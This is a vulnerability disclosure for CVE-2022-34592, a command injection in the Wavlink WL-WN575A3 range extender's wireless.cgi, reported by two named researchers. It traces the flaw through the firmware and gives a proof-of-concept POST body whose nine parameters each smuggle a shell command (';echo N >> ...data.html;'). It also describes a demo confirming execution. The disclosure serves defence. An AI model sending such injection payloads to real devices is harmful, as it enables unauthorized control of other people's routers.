









# CVE-ID

[CVE-2022-34592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34592 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34592")

# Information

**Vendor of the products:**    WAVLINK

**Vendor's website:**    [https://www.wavlink.com/en_us](https://www.wavlink.com/en_us "https://www.wavlink.com/en_us")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    Wavlink WL-WN575A3

**Affected firmware version:**    RPT75A3.V4300.201217

**Firmware download address:**     [https://www.wavlink.com/en_us/firmware/details/fac744bd61.html](https://www.wavlink.com/en_us/firmware/details/fac744bd61.html "https://www.wavlink.com/en_us/firmware/details/fac744bd61.html")

# Overview

`Wavlink WL-WN575A3 RPT75A3.V4300.201217` has several command injection vulnerabilities detected at function `obtw`. Attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# Product parameters

`Wavlink WL-WN575A3` is a AC1200 Dual-band Wi-Fi Range Extender. The test version here is `RPT75A3.V4300.201217`.



# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/wireless.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.



In the function `ftext`, we find that when bypassing the check of `wlan_conf` and the content of `page` field is `obtw`, we can execute the `obtw` function.







In the function `obtw`, the program uses function `web_get` to obtain the content of parameter `obtw_enable` , `CCK_1M` , `CCK_5M` , `OFDM_6M` , `OFDM_12M` , `HT20_MCS_0` , `HT20_MCS_1_2` , `HT40_MCS_0` , `HT40_MCS_32` and `HT40_MCS_1_2` which are sent by `POST` request. Then, when `obtw_enable != 0`, the content of other parameters are formatted into a string passed as an argument to the function `do_system` which can execute system commands.



Above all, attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and let `wlan_conf=2860 & page=obtw` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# POC

Send the following to the URL `http://wifi.wavlink.com/cgi-bin/wireless.cgi` by `POST` request.

```
wlan_conf=2860
&page=obtw
&obtw_enable=1
&CCK_1M=;echo 1 >> /etc_ro/lighttpd/www/data.html;
&CCK_5M=;echo 2 >> /etc_ro/lighttpd/www/data.html;
&OFDM_6M=;echo 3 >> /etc_ro/lighttpd/www/data.html;
&OFDM_12M=;echo 4 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_0=;echo 5 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_1_2=;echo 6 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_0=;echo 7 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_32=;echo 8 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_1_2=;echo 9 >> /etc_ro/lighttpd/www/data.html;
```

# Attack Demo

At first, we confirm that the page `/data.html` does not exist.



Then, we use `HackBar` to send the `POC` above. **We inject commands that output `1` to `9` in turn into each parameter.**



Finally, we detect that the page `/data.html` has been created and the number `1` to `9` are displayed on the page.



So far, we have verified that **the all above nine parameters can be vulnerability points injected by arbitrary commands**.
